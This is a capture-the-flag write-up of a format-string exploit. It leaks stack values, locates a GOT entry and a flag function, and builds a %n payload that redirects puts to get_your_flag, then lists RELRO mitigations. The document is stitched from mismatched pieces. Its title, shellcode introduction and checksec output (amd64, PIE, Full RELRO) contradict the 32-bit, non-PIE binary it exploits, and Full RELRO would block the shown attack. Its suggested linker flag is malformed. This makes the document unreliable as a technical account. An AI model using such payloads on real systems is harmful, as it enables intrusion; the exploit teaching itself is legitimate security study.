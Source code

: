 # level-0

## Introduction

A pwnable passed down from my mentor, @huckfinn. This problem focuses on creating shellcode.

## Information Gathering

### Hint #1

> This program will literally do anything you want it to do.

```shell
$ checksec ./level-0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Dynamic

If we run the program we see that the program is waiting for input. When we enter the input, the program immediately segfaults. Given the hint, it makes me think that this program is literally running the bytes given to it. Since `test` doesn't correspond to valid instructions in amd64, the program dies.

```shell
$ ./level-0
test
Segmentation fault (core dumped)
```

### Static

We threw the program in Ghidra and this was the result after some cleanup.

```c
int main(int argc,char **argv)
{
  uint hax_num;
  char username [39];
  undefined local_11;
  undefined4 *local_10;

  local_10 = &argc;
  hax_num = 0;
  if (argc == 2) {
    puts("On a scale of 1 to 10, how sweet are your hax?");
    __isoc99_scanf("%u",&hax_num);
    /* hax_num must be less than 11. This makes sense since it asks for 1..10. */
    if ((hax_num < L'\v') && (hax_num != 0)) {
      puts("So you say you got hax...but not enough to get the flag!");
      strncpy(username,argv[1],39);
      local_11 = 0;
      printf("Goodbye ");
      printf(username);
      puts("Sorry, try again.");
    }
    else {
      puts("Can you read? That\'s not even on the scale!");
    }
  }
  else {
    puts("Usage: ./got_hax [name]");
  }
  return 0;
}
```

The thing to note here is that there is a `printf` vulnerability where user
controlled input ends up being printed without proper sanitization. If we pass
in a username of, say, `%s%s%s%s%s%s%s` we should get a segmentation fault as
`printf` takes arguments off of the stack and treats them as character
pointers. Since the values at these addresses probably aren't all valid
pointers, we should get a crash. We see this when we test the following:

```c
$ ./got_hax %s%s%s%s%s
On a scale of 1 to 10, how sweet are your hax?
$ 1
So you say you got hax...but not enough to get the flag!
Segmentation fault (core dumped)
```

We also noticed that right above `main` in Ghidra was the function
`get_your_flag`. This function `open`'s the `key` file, `read`'s the file, and
`printf`'s the result. Somehow, we need to call this function.

## Strategy

The idea is to overwrite the GOT entry for `puts` (which is called immediately
after the `printf` that has our username) with the address for `get_your_flag`
from our symbol table. We can do this with the `%n` conversion character. This
character will store the number of characters written so far into the integer
that is pointed to by the corresponding argument. To do this, we need to know a
few things (note, I really recommend reading `man 3 printf` first):

1. Where our input lies on the stack. We need this because we will be treating
that input as a `int *` and writing the address of `get_your_flag` to this
location. We will call this number `offset_on_stack`. To figure this out we can
do one of two things:

    - Debug the program and look at the stack. This would work well for this
challenge, as we have the executable. We'll skip this for now though.

    - We can write a format string that walks up the stack with a few `%x` and
examine the output. We try this with something like the following:

      ```shell
      $ ./got_hax "aaaa|%x|%x|%x|%x|%x|%x|%x"
      On a scale of 1 to 10, how sweet are your hax?
      10
      So you say you got hax...but not enough to get the flag!
      Goodbye aaaa|ffb2aa74|27|0|f7f53fd0|a|61616161|7c78257cSorry, try again.
      ```

      This format string tells `printf` to write `aaaa` and examine the stack
for seven arguments and treat them as unsigned hexadecimal numbers. Notice that
the sixth argument (not seventh - remember, the `aaaa` printed out first isn't
popped from the stack) is 0x61616161, which is the hexadecimal representation
of `aaaa`. This is where our input is on the stack.

1. The number of bytes we need to write. This one is easy; we need to write as
many bytes as is equal to the address (in decimal) of the thing we want to
write - the address of `get_your_flag`. We can get this easily with Ghidra or
`objdump`. This is not a position independent executable which helps us out
here.

    ```shell
    objdump --syms ./got_hax/got_hax | grep "get_your_flag"
    0804856b g     F .text  000000aa              get_your_flag
    ```

1. The address that we need to overwrite. This one is also easy. We want to
overwrite the GOT address that the dynamic linker resolves for `puts`. We can
also find this with `objdump`:

    ```shell
    objdump --dynamic-reloc ./got_hax/got_hax | grep "puts"
    08049ab4 R_386_JUMP_SLOT   puts@GLIBC_2.0
    ```

Alright, with all of these things, we can craft a format string that will write
the address of `get_your_flag` to the GOT entry for `puts`. We can do this by
using the `%n` conversion character. It will look something like this:

```
<address we want to write to>%<number_of_bytes_to_write>x%<offset_on_stack>$n
or, if we fill in some values:
<0x08049ab4>%<0x0804856b>x%<6>$n
```

A few problems. We're dealing with a little-endian architecture, so we need to
swap that first address to `b'\xb4\x9a\x04\x08`. Easy.

The next address represents the number of bytes we want to write as padding.
However, we've actually already written four bytes when we wrote the preceding
address (`b'\xb4\x9a\x04\x08`), so we need to subtract those four bytes. Then
we need to convert it to decimal. `134514023`.

So we're left with the following format string:
`\xb4\x9a\x04\x08%134514023x%6$n`

Breaking down what this means one last time:

`\xb4\x9a\x04\x08`: The address we want to write to. This will be the first
thing written to the offset we found on the stack. Thus when we later specify
`%n`, `printf` will look at this address and write the number of bytes we want
to write there.

`%134514023x`: We want to print one hexadecimal value with `134514023` bytes of
padding.

`%6$n` Take the sixth argument on the stack and write the number of characters
written so far to that address.

## The Solution (with a caveat)

We found what input we need to send the program that causes the program to read
the flag. If we send the input like so: `./got_hax
'\xb4\x9a\x04\x08%134514023x%6$n`, we will indeed get the flag, but it will
take a really long time. This is because the program will print to stdout all
of the padding we've told it to print. This is a long process. If we instead
send the input without printing any information (i.e, using the included
pwntools script), we avoid this long delay and it takes only a couple of
seconds:

```shell
$ python3 ./solve.py
...
[+] Flag: b'dc26c7327afc46f26307ed69ff79c3d5'
[*] Time: 2.48860764503479
```

We can further avoid this delay by writing the number of bytes in two distinct
chunks, but we will explore this in a future challenge. For now, let's roll
with our current solution!

## Mitigations

Some key terms. Inside an ELF there multiple section. A few of them are:

- `.got`: The table of offsets filled in by the dynamic linker to external
symbols. Think variables.

- `.plt`: Contains the stubs that look up the addresses to procedures in the
`.got.plt` or triggers the dynamic linker to resolve the procedure.

- `.got.plt`: Contains the addresses to procedures resolved by the dynamic
linker or the `.plt` to trigger the dynamic linker. Think functions. This is
merged into the `.got` section with Full RELRO; see below.

Join me in shaming the developers of this program. To prevent us from reading
the flag, the developers could have done a few things:

- Don't allow untrusted user input to the first argument of `printf`. `gcc`
will automatically trigger a warning at compile time if warnings are enabled.

- Compiled the executable with RELRO (relocations-read-only) enabled. There are
two versions of this:

  - Partial: the `.got` section is read-only, but the `.got.plt` section is
not. Rearrange sections to reduce global variable overflowing into control
structures. Unfortunately, this would not have prevented us from reading the
flag, as we overwrote the function pointer in the `.got.plt` section.

  - Full: everything above, plus: the dynamic linker resolves all symbols at
link time (before we've started executing) and updates the addresses in the
`.got` and `.got.plt` sections. Those two sections are then merged into one,
the `.got`, and you will no longer see the `.got.plt` section. The `.got` is
then `mprotect`'ed to be read-only. This would prevent us from reading the flag
as we would be unable to write to the `.got.plt` or `.got` sections after
link-time.

As of writing, `gcc` 11.2.1 defaults to compiling with Partial RELRO. To gain
the benefits of Full RELRO, add the compile option `-Wl -z,relro -z,now`.
